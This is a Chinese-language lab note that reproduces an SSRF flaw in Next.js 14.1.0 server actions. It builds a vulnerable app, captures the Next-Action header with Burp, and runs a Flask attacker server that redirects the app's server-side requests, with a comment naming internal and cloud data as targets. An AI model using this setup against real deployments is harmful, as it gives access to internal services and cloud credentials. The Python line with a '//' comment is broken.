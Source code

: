- Next.js -ssrf
## 漏洞分析
- https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps?ref=assetnote.io

## 本地复现

### 创建有漏洞的nextjs应用
```bash
npx create-next-app@14.1.0 vulnerable-app
cd vulnerable-app
```

#### 创建有漏洞的服务端动作

在 `app/actions.ts` 中添加：
```js
"use server";

import { redirect } from "next/navigation";

export const handleSearch = async (data: FormData) => {
  // 模拟用户未登录状态
  redirect("/login");
};
```

#### 创建测试页面

在 `app/page.tsx` 中添加：
```js
import { handleSearch } from './actions';

export default function Home() {
  return (
    <form action={handleSearch}>
      <button type="submit">测试漏洞</button>
    </form>
  );
}
```

#### 启动应用

`npm run dev`


### 获取Nextt-Action ID

1. 访问 `http://localhost:3000`
2. Burp抓包拦截
3. 点击 "测试漏洞" 按钮
4. 在请求头中找到 `Next-Action` 的值（如 `15531bfa07ff11369239544516d26edbc537ff9c`）


### 启动恶意服务 -ssrf

```python
from flask import Flask, Response, request, redirect

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>', methods=['HEAD', 'GET'])
def catch(path):
    print(f"Received {request.method} request for {request.url}")
    if request.method == 'HEAD':
        resp = Response("")
        resp.headers['Content-Type'] = 'text/x-component'
        return resp
    return redirect('http://baidu.com') // 内网数据 / 云数据等等

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8081)

```

![](media/Pasted%20image%2020250713203556.png)  

